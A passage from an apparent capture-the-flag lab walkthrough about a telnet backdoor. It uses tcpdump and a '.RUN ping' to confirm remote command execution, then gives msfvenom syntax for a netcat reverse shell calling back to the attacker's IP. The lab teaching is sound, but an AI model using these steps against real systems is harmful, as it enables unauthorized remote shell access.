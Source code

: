 > N

**4. Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.**

> No answer needed

**5. Start a tcpdump listener on your local machine.**

**If using your own machine with the OpenVPN connection, use:**  
`sudo tcpdump ip proto \\icmp -i tun0`  
**If using the AttackBox, use:**  
`sudo tcpdump ip proto \\icmp -i ens5`

**This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.**

This command needs to be executed from a new terminal. Do not close the terminal that has the telnet connection.

![[ns-telnet-4.png|540]]

```bash
sudo tcpdump ip proto \\icmp -i tun0
```

`ip proto \\icmp`: Capture packets that use the ICMP protocol (Filer Expression)  
`-i`: Capture packets from a specific interface

> No answer needed

**6. Now, use the command "ping \[local THM ip\] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, that you need to preface this with .RUN (Y/N)**

Run the ping command from the terminal in which you have the telnet connection. Remember to prefix the command with `.RUN`.

```bash
.RUN ping 10.6.67.160 -c 1
```

Once the command is executed check the terminal in which `tcpdump` is running. It should have listed the ICMP packets.

> Y

**7. Great! This means that we can execute system commands AND that we can reach our local machine. Now let's have some fun!**

> No answer needed

**8. We're going to generate a reverse shell payload using msfvenom.**  

**This will generate and encode a netcat reverse shell for us. Here's our syntax:**  
**"msfvenom -p cmd/unix/reverse_netcat lhost=\[local tun0 ip\] lport=4444 R"**  

**-p: payload  
lhost: our local host IP address (this is your machine's IP address)  
lport: the port to listen on (this is the port on your machine)  
R: export the payload in raw format**  

